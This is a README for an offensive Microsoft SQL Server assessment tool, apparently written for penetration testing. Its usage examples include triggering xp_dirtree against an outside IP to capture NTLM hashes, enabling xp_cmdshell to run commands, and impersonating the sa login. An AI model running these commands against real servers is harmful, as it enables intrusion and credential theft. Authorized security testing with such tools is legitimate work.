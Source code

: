 # MSSQL Security Assessment Tool

A cross-platform, fully-featured offensive security utility that streamlines enumeration, exploitation, and post-exploitation of Microsoft SQL Server environments.

## Key Features

• **Deep Enumeration** – Quickly map out servers, databases, tables, users, roles, and permissions.
• **Privilege Escalation Work-flows** – Identify and exploit mis-configurations (e.g., `EXECUTE AS`, impersonation, role chaining).
• **Credential Hunting** – Automatically search for credential artefacts, hashes, connection strings, and secrets.
• **Command / Payload Execution** – One-click helpers for `xp_cmdshell`, OLE Automation, `xp_dirtree`, and linked-server abuse.
• **Session Logging & Reporting** – Generates HTML & JSON reports, structured data exports, and timeline logs for every assessment.
• **Self-Contained Builds** – Single-file executables for Windows & Linux via the provided `build.sh` helper.

## Requirements

* .NET 6 SDK *(Linux, macOS, or Windows)*
* Network access to the target SQL Server instance

> The tool relies on `System.Data.SqlClient` (included via NuGet) and **does not** require any third-party binaries.

## Quick Start

```bash
#–– Clone & build (Linux example)
$ git clone https://github.com/Greylorn/MSSQL.git
$ cd MSSQL-Tool/MSSQL
$ ./build.sh linux-x64           # produces bin/publish-linux-x64/MSSQL

#–– Or run directly with dotnet
$ dotnet run --project MSSQL.csproj -- --server dc01.corp1.com --action enum --log
```

## Usage Examples

```bash
# Quick enumeration with logging
MSSQL --server dc01.corp1.com --action enum --log

# Execute arbitrary query
MSSQL --server dc01.corp1.com --action query --sql "SELECT SYSTEM_USER;"

# Trigger xp_dirtree to capture NTLM
MSSQL --server dc01.corp1.com --action dirtree --share "\\\\192.168.49.67\\share"

# Enable & execute xp_cmdshell
MSSQL --server dc01.corp1.com --action xp_cmd --cmd "whoami"

# Impersonate sa
MSSQL --server dc01.corp1.com --action impersonate_login --target sa
```

Use `--help` or run the program without arguments to display the full interactive menu.

## Building Self-Contained Binaries

The helper script wraps `dotnet publish` to create a **single-file, self-contained** executable.

```bash
# Windows x64 EXE (default)
./build.sh

# Windows x86
./build.sh win-x86

# Linux x64
./build.sh linux-x64
```

Resulting binaries are written to `bin/publish-<RID>/`.

## Project Structure

```
MSSQL/
├── Program.cs                # Main source (enumeration & attack logic)
├── MSSQL.csproj              # .NET project file (targets net6.0)
├── build.sh                  # Cross-platform single-file build helper
├── additional_features.md    # Roadmap & nice-to-have ideas
└── ...                       # Reports & session artifacts (git-ignored)
```

## Disclaimer

This software is provided **for educational and authorized penetration-testing purposes only**. The authors assume **no liability** for misuse or damage caused by this tool. Ensure you have **explicit written permission** before targeting any system.

## License

Distributed under the MIT License. See `LICENSE` for more information.
